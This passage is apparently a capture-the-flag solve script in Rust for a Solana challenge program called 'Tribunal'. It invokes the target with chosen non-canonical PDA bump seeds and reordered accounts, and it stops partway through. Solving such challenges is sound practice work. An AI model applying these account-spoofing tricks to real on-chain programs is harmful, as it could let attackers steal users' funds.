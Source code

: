     #[derive(BorshSerialize)]
    pub enum TribunalInstruction {
        Initialize { config_bump: u8, vault_bump: u8 },
        Propose { proposal_id: u8, proposal_bump: u8 },
        Vote { proposal_id: u8, amount: u64 },
        Withdraw { amount: u64 },
    }

    entrypoint!(process_instruction);

    pub fn process_instruction(
        _program_id: &Pubkey,
        accounts: &[AccountInfo],
        _instruction_data: &[u8],
    ) -> ProgramResult {
        let iter = &mut accounts.iter();
        let chall_id = next_account_info(iter)?;
        let user = next_account_info(iter)?;
        let user_config = next_account_info(iter)?;
        let user_vault = next_account_info(iter)?;
        let proposal = next_account_info(iter)?;
        let vault = next_account_info(iter)?;

        let config_bump = 252_u8;
        let vault_bump = 253_u8;

        invoke(
            &Instruction {
                program_id: *chall_id.key,
                data: TribunalInstruction::Initialize{config_bump, vault_bump}.try_to_vec().unwrap(),
                accounts: vec![
                    AccountMeta::new(*user.key, true),
                    AccountMeta::new(*user_config.key, false),
                    AccountMeta::new(*user_vault.key, false),
                    AccountMeta::new_readonly(system_program::id(), false),
                ]
            },
            &[
                user.clone(),
                user_config.clone(),    // all accounts should be provided
                user_vault.clone(),
            ]
        )?;

        invoke(
            &Instruction {
                program_id: *chall_id.key,
                data: TribunalInstruction::Vote{proposal_id: 1, amount: 1}.try_to_vec().unwrap(),
                accounts: vec![
                    AccountMeta::new(*user.key, true),
                    AccountMeta::new(*user_config.key, false),
                    AccountMeta::new(*vault.key, false),
                    AccountMeta::new(*proposal.key, false),
                    AccountMeta::new_readonly(system_program::id(), false),
                ]
            },
            &[
                user.clone(),
                vault.clone(),
                user_config.clone(),
                proposal.clone(),
            ]
        )?;
